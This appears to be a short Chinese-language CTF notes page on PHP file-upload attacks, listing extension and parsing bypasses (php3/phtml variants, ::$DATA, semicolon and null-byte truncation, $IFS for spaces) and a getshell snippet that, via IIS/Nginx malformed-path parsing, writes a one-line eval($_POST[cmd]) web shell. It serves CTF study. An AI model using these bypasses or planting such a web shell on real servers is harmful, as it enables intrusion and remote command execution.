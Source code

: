 TODO:  
## 上传二次渲染
有时候上传文件时php会用组件把你的文件格式更改为jpg，需要用/ctf/web/php/php_jpg.php中的脚本进行绕过

## 文件解析
https://blog.csdn.net/wn314/article/details/77074477
https://www.cnblogs.com/shellr00t/p/6426856.html

```
截断，分号 php=>ptml,php2 php3 php4 phpss...  
flag.php:1  
flag.php::$DATA  
空格可以使用$IFS代替
```
## 回调后门
https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html

### getshell
目录解析 1.asp/1.png
分号阶段 1.asp;.png
改包 00截断

IIS7.0 .5 Nginx<8.03畸形解析漏洞
默认FAST-CGI开启状态上传一个1.jpg内容
```php
<?php fputs(fopen('shell.php','w'),'?<php eval($_POST[cmd]?>');?>
```
访问1.jpg/.php。在这个目录下就会生成一句话木马shell.php
